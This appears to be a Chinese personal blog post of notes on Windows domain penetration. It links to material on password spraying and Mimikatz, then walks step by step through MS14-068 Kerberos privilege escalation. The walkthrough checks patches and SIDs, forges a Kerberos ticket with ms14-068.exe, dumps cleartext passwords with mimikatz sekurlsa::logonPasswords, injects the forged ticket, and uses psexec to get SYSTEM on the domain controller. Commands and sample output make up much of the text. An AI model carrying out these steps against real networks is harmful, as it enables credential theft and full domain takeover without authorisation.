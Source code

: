 ```yaml
---
layout: post
topmost: true
title:  内网渗透思路
categories: 安全知识
description:  内网渗透思路
keywords: 渗透
---
```




# 渗透学习资料

1. SSRF 漏洞
[手把手带你用 SSRF 打穿内网
](https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-1)

2. 每周分享渗透测试的知识点

[每周(也许不)分享一些关于渗透测试的知识点
](https://github.com/ffffffff0x/Pentest101)

[干货！内网渗透测试之域渗透详解！收藏！：
](https://www.freebuf.com/company-information/172630.html)
[[域渗透]导出域用户Hash方法总结
](https://scarletf.github.io/2019/09/03/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%AF%BC%E5%87%BA%E5%9F%9F%E7%94%A8%E6%88%B7Hash%E6%96%B9%E6%B3%95/)


[内网笔记细节：（偏向细节）
](https://apsry.github.io/2022/03/11/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E7%AC%94%E8%AE%B0/)


# 渗透流程


1. 收集域控信息
2. 密码爆破
3. 用户提权
   
## 二、域密码喷洒

[利用一个powershell工具完成 DomainPasswordSpray
](https://blog.csdn.net/qq_41874930/article/details/109308519)
利用工具：[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)


## 三、 用户提权

使用 Mimikatz

https://www.cnblogs.com/-mo-/p/11890232.html

# Kerberos域用户提权漏洞（MS14-068）分析与防范

**生效范围：**  windows (2003/2008/2012/7/8)

## 工具下载
Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases


##  1、查看域控制器的补丁安装情况
微软针对 MS14-068 漏洞提供补丁为 `KB3011780` 。输入命令查看补丁情况：

```
wmic qfe get hotfixid 

```
![](https://ask.qcloudimg.com/http-save/yehe-5487096/0xwlav6oci.png?imageView2/2/w/1620)
可以看到域控机器没有安装补丁。

## 2、查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```dotnetcli
whoami /user
```

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```
## 3、查看域控制器的主机名

获取域控主机名 / IP 地址

```dotnetcli
net group "Domain controllers" /domain
********
ping 主机名

```

![](https://i.loli.net/2020/01/09/C8m2XV63IKjzMtd.png)

> 注意不要带 $ 符号

测试是否可以访问域控共享文件

```dotnetcli
dir \\域控主机名.域名\c$

```

![](https://i.loli.net/2020/01/09/SUmtaoL2AQMR5ZD.png)

可以看到显示 “拒绝访问”，这是正常，域普通用户当然没有权限访问域控共享文件，现在我们需要使用 MS14-068 提权。




## 4、利用ms14-068.exe 工具生成伪造的 kerberos 协议认证证书

MS14-068 需要几个必要的参数，SID、域用户名、域控地址，另外还需要密码，若没有密码可以使用–rc4 来使用 hsah 生成凭证

` ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip`

![](https://i.loli.net/2020/01/09/fD958LTjwCUNvJq.png)
例如：

进入 mimikatz

记住 `mimikatz 要有管理员权限`不然无法抓取内存密码，可以以管理员权限运行。

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029171807870-1810720099.gif)

 输入`privilege::debug` 权限提升，在`输入 log `会在当前文件夹下生成后面命令执行的结果方便我们查找数据，最后输入`sekurlsa::logonPasswords `抓取密码

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029172642038-1348450916.gif)

 会在当前目录生成mimikatz 日志文件

日志例如：
```dotnetcli

Authentication Id : 0 ; 434243 (00000000:00075558)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : test
Logon Server      : ABF
Logon Time        : 2022/4/22 9:44:37
SID               : S-1-5-21-2872597263-2872597263-2872597263-1111
```

 
 成功获取到明文密码，也获取了域用户sid 和域控主机名

` MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`

![](https://img2018.cnblogs.com/blog/1222663/201910/1222663-20191029174506417-1917631510.png)


进入 mimikatz


```
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
```

使用如下命令导入刚刚生成的伪造凭证

```
kerberos::ptc 凭证地址
```

再次访问域控的共享文件，即可发现已经成功列出目录了

>  `dir \\域控主机名.域名\c$`


![](https://i.loli.net/2020/01/09/rK3oDBlA2m8zdIx.png)

## 5. 使用 Psexec64.exe 横向移动

```dotnetcli
psesec.exe -accepteula \\IPaddress -s cmd.exe

```

![](https://i.loli.net/2020/01/09/tO6l25Wq3ak4VIT.png)

可以观察到命令提示符已经变了，且用户权限为域控的 system 权限（由于 Psexec64.exe 的 - s 原因）。看 IP 地址也可知晓已经成功登陆域控机器了。




# 知识拓展
2.查看域控制器的主机名
Nslookup -type=SRV _ldap._tcp

## 工具
https://github.com/gentilkiwi/kekeo


# 参考

[[后渗透]Mimikatz使用大全](https://www.cnblogs.com/-mo-/p/11890232.html)
https://cloud.tencent.com/developer/article/1760132

https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/